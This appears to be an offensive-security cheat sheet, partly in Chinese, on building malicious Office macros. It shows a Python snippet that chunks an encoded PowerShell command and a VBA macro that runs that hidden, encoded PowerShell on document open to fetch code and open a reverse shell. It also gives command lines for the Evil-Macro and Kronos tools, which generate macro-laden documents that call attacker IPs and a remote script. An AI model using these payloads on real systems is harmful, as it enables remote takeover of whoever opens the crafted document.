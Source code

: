 ##### python script

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..." 
 
n = 50 
 
for i in range(0, len(str), n): 
    print("Str = Str + " + '"' + str[i:i+n] + '"') 
```

##### macro payload

```vb
Sub AutoOpen() 
    ReverseShell 
End Sub 
 
Sub Document_Open() 
    ReverseShell
End Sub 
 
Sub ReverseShell() 
    Dim Str As String 
     
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU" 
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd" 
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB" 
    ... 
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA" 
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA" 
        Str = Str + "A== " 
 
    CreateObject("Wscript.Shell").Run Str 
End Sub
```

### Evil-Macro

[Evil-Macro](https://github.com/rodolfomarianocy/Evil-Macro)是一个python脚本，可生成恶意宏代码，用于powershell环境的reverse shell。

```bash
python evil_macro.py -l 192.168.33.168 -p 443 -o macro.txt
```

### Kronos

[Kronos](https://github.com/ELMERIKH/Kronos)是一个python脚本工具，可生成带有恶意宏代码的DOCM或PPTM。

```bash
# 实现reverseshell
python3 kronos.py -Url 'http://192.168.11.110:8080/keres.ps1' --word_file 'evil.docx' -PE 'powershell.exe ./yes.ps1'
```
